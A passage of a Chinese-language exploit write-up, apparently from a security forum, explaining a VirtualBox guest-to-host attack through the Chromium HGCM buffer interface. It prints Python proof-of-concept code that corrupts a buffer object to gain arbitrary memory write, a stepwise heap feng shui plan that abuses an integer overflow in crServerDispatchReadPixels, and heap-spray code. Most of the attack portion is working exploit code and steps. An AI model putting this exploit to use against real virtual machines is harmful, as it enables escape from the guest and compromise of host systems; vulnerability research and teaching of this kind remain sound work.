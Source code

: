 3~4 部分的 POC 如下

```python
def make_corrupt_obj(pData):
    obj = (
        "A"*0x28
        + pack("<Q", 0x35)
        + pack("<I", 0xcafebabe) #uiId
        + pack("<I", 0xffffffff) #uiSize
        + pack("<Q", pData) # table_addr
        )
    return obj

def write_anywhere(addr, data):
    #make corrupt obj
    fake_buffer = make_corrupt_obj(addr)
    hgcm_call(client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0xdeadbeef, 0xffffffff, 0, fake_buffer])  # overwrite buffer #2's pData & uiSize
    hgcm_call(client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0xcafebabe, 0xffffffff, 0, data]) # use buffer #2 to arw
```

下面再介绍堆布局的流程：  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-3fefe7d5e3c31f1eb7df6273b5e7885d57358128.png)

流程介绍如下：

1. 首先通过申请大量 0x20 的内存消耗堆中的不连续的内存块.
2. 连续分配多个 pData 大小为 0x20 的 pBuf，此时 pBuf 和 pData 会连续分配.
3. 从后往前间隔释放 pBuf-&gt;pData 和 pBuf，由于堆管理的后入先出的特性，最终 free 块的链表为 `free 7 --> free 6 --> .... -> free y`​.
4. 按照 0x50 和 0x20 的 Size 组合连续申请 pBuf
    
    
    - pBuf 9 11 13 15 的 pData 的大小为 0x50 所以不会用刚刚释放的 free 块
    - pBuf 10 12 14 的 pData 的大小为 0x20 会使用刚刚释放的 free 块.
5. 从后往前间隔释放 size 为 0x50 的 pBuf，最后 free 块链表为 `free 1 --> free 0`​
6. 触发漏洞，使用 free 0 溢出 pBuf 14.
    
    
    - 触发漏洞前需要分配 pBuf 然后把命令数据写入 pBuf，这一步设置 pBuf-&gt;uiSize 大于 0x20 ，就只会用掉一个 0x20 的块，即 free 1
    - 然后在 crServerDispatchReadPixels 里面整数溢出申请 0x20 的内存会拿到 free 0
    - 溢出就可以修改 pBuf 14 的 uiSize 为 0xffffffff
7. 利用 pBuf 14 溢出修改 pBuf 15 的 uiSize 、pData.
8. 利用 pBuf 15 实现任意地址写.

堆喷相关代码

```python
def heapSpray(client):
    buf_ids = []
    spray_ids = []

    # 清理堆中的碎片.
    for i in range(600):
        alloc_buf(client, 0x20)
    fengshui_buf_ids = []
    for i in range(1000):
       fengshui_buf_ids.append(alloc_buf(client, 0x60))
    for i in range(500):
        alloc_buf(client, 0x20)

    raw_input("clean heap done.")

    # 分配多个 pBuf, pBuf->pData 的大小为 0x20， 用于布局
    for i in range(120):
        buf_ids.append(alloc_buf(client, 0x20))
    buf_ids = buf_ids[::-1] # reverse, because fastbin is LIFO
```